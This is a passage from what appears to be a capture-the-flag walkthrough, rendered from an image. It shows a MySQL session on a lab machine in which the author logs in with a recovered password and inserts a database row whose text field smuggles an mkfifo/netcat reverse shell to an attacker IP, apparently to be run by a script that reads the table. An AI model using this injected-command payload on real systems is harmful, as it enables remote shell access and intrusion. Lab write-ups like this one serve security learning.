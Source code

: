 We have the password :

```bash
ucien@ip-10-10-137-212:~$ mysql -u lucien -plucien42DBPASSWORD
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 8.0.41-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use library
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> I
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
4 rows in set (0.00 sec)

mysql> desc dreams;
+---------+--------------+------+-----+---------+-------+
| Field   | Type         | Null | Key | Default | Extra |
+---------+--------------+------+-----+---------+-------+
| dreamer | varchar(50)  | YES  |     | NULL    |       |
| dream   | varchar(255) | YES  |     | NULL    |       |
+---------+--------------+------+-----+---------+-------+
2 rows in set (0.00 sec)

 mysql> INSERT INTO dreams (dreamer, dream)
    -> VALUES ('NoBody', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.162.183 1337 >/tmp/f)');


mysql> select * from dreams;
+---------+-----------------------------------------------------------+
| dreamer | dream                                                     |
+---------+-----------------------------------------------------------+
| Alice   | Flying in the sky                                         |
| Bob     | Exploring ancient ruins                                   |
| Carol   | Becoming a successful entrepreneur                        |
| Dave    | Becoming a professional musician                          |
```